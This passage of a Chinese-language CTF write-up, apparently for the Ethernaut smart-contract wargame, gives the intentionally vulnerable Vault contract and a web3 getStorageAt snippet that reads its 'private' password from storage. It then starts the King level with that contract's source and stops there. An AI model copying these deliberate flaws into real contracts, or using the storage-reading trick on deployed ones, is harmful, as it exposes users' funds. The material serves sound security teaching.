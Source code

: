 
```javascript  
pragma solidity ^0.4.18;

contract Vault {
  bool public locked;
  bytes32 private password;

  function Vault(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

&emsp;&emsp;我们只需要通过**unlock()**函数就能修改locked的值，getStorageAt()的用法如下：  

> web3.eth.getStorageAt(addressHexString, position [, defaultBlock] [, callback])  

&emsp;&emsp;我们需要使用一个回调函数来打印出相关数据：  

```javascript
web3.eth.getStorageAt(contract.address,1,function(x,y){
    var result = web3.toAscii(y);
    alert(result);
        });
```

---

#### 9. King  

> **Target**: Be a king forever!!  

&emsp;&emsp;先放源码：  

```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```
